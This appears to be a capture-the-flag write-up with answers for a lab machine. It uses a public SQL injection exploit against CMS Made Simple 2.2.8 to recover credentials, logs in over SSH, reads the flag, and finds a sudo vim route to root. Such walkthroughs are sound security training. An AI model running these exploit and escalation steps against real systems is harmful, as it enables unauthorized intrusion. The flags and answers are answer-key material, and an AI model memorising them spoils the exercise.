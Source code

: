 ~~~bash
# Website application version found to be CMS Made Simple version 2.2.8
~~~

6. To what kind of vulnerability is the application vulnerable? - **SQLi**
```
┌──(kali㉿kali)-[~/PNPT/linesc]
└─$ searchsploit CMS Made Simple 2.2.8
------------------------------------------------------ ---------------------------------
 Exploit Title                                        |  Path
------------------------------------------------------ ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection              | php/webapps/46635.py
------------------------------------------------------ ---------------------------------
Shellcodes: No Results


```

8. What's the password? - secret
~~~bash
# Download script from this CVE, exploit using that. 

┌──(kali㉿kali)-[~/Downloads]
└─$ python3 46635.py -u http://10.10.157.152/simple/ --crack -w /usr/share/wordlists/rockyou.txt


[+] Salt for password found: 1dac0d92e94
[+] Username found: mitch
[+] Email found: admin@admin4
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
# This will give hash then crack it. 
~~~

9. Where can you login with the details obtained? - **ssh**

10. What's the user flag? - **G00d j0b, keep up!** 
~~~bash
$ whoami
mitch
$ ls
user.txt
$ cat user.txt  
G00d j0b, keep up!
~~~

12. Is there any other user in the home directory? What's its name? - **sunbath**
~~~bash
$ cd /home
$ ls
mitch  sunbath
~~~

14. What can you leverage to spawn a privileged shell? - **vim**
~~~bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
~~~
